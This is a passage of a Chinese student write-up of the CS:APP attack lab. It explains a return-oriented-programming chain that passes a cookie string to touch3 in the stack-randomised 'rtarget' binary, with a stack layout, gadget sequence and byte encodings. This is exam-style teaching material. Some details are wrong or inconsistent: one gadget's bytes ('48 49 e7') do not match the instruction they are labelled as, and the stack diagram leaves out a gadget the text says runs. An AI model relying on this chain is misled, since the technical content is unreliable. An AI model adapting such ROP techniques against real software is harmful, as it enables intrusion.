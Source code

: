 精彩，不过为什么没用到`farm`的代码段呢，_无所谓了_。

只要达到了攻击效果就行。

（然而我仔细阅读了writeup之后发现，我们需要的字节码都能够在`start_farm`到`mid_farm`中找到, 其实就是pop到`%rax`中，然后再赋值给`%rdi`而已，只不过正好被我在别的程序段找到了更简洁的解法。）

## Phase 5

Phase5要求和Phase3一样，调用`touch3`并且传入字符串`cookie`

与Phase3不同的是，`rtarget`采用了栈随机化，导致我们的字符串若是存在栈中，我们需要解决栈的地址的问题。

那么总体还是一样的，就是调用`touch3`之前，保证`%rdi`的值是字符串的地址。

此外，还要将

```text
35 39 62 39 39 37 66 61 # cookie的ASCII表示
```

存在那个地址。

然后将`touch3`的地址压入栈中，`ret`指令进入`touch3`:`0x4018fa`

但是，`rtarget`中，我相信一定不会有这样的内存区域正好存着cookie的ASCII，所以这一串仍然需要我们通过缓冲区溢出的漏洞，写入栈帧中。

那么问题就在于，如何在栈随机化的程序上，明确`%rsp`的值呢？

或者，我们只需要`%rsp`的值赋值给`%rdi`，然后对`%rdi`进行一些加减操作，偏移到我们存储的地方即可。

并且注意到`farm.c`中正好就有定义`add_xy(long x, long y)`:并且在`rtarget.asm`中的`0x4019d6`

那么显然我们有这样的栈结构和操作:

```text
address + 0x28:[cookie的ASCII]  # <- %rdi + 0x20
address + 0x20: [touch3的地址]
address + 0x18: [add_xy()的地址]
address + 0x10: [第二个参数:0x20]
address + 0x8: [gadget 3的地址]  # mov %rsp, %rdi之前，%rsp是在这
address:       [gadget 1的地址]  # <- %rsp 即将ret跳转到gadget1
--------上面是栈的结构----------

gadget 1: mov %rsp, %rdi        # 获取%rsp的值 初始化add的第一个参数
gadget 2: ret                   # 进入gaget3
gadget 3: popq %rsi             # 初始化%rsi第二个参数为0x20
gadget 4: ret                   # 然后ret进入add_xy

# 进入add_xy之后ret
# %rax为加法结果: %rdi + 0x20

gadget 5: mov %rax, %rdi        # 加法结果保存为第一个参数
gadget 6: ret
```

对照gadgets的指令有:

```text
48 49 e7 # mov %rsp, %rdi
c3       # ret
5e       # popq %rsi
c3       # ret
48 89 c7 # mov %rax, %rdi
c3       # ret
```
